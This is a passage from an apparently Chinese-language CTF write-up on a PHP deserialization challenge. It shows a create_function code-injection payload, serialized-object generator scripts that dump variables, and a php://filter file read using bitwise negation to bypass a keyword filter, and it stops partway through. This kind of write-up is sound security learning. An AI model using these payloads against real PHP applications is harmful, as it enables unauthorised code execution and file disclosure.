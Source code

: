 > 那么传入`a=;}phpinfo();/*`就会得到：
>
> ```php
> function name($name) {
> 	echo $name;}phpinfo();/*;
> }
> ```
>
> ;}将前面的语句和函数闭合，/*把后面的;}注释掉，phpinfo()；就成功执行了

这里也是一样：

1. func=creat_function
2. arg=;}a();/*

**然后就是看如何拿到flag**

1. 起初看到`include "flag.php"`，就想通过`$get_defind_vars()`输出所有变量从而获得$flag的值
   ```php
   <?php
   class A {
       public $var;
       public function __construct(){
           $this->var = new B();
       }
   }
   
   class B{
       public $func="create_function";
       public $arg=";}var_dump(get_defined_vars());//";
       }
   
   $a = new A();
   echo serialize($a);
   
   ?>
   ```

   但得到的是假的flag，提示真的flag在`Tru3flag.php`
   ![](https://i.loli.net/2021/09/26/JIVGtX2v5qHfOru.png)

2. 那么可以用文件包含+伪协议来读Tru3flag.php：

   ```php
   php://filter/convert.base64-encode/resource=Tru3flag.php
   ```

   伪协议中有关键字被过滤了，将其取反再urlencode编码再传入即可

   ```php
   <?php
   class A {
       public $var;
       public function __construct(){
           $this->var = new B();
       }
   }
   
   class B{
       public $func="create_function";
       public $arg;
       public function __construct(){
           $c=(~('php://filter/convert.base64-encode/resource=Tru3flag.php'));
           $this->arg = ';}require(~('.strval($c).'));//';
       }
   }
   
   $a = new A();
   ```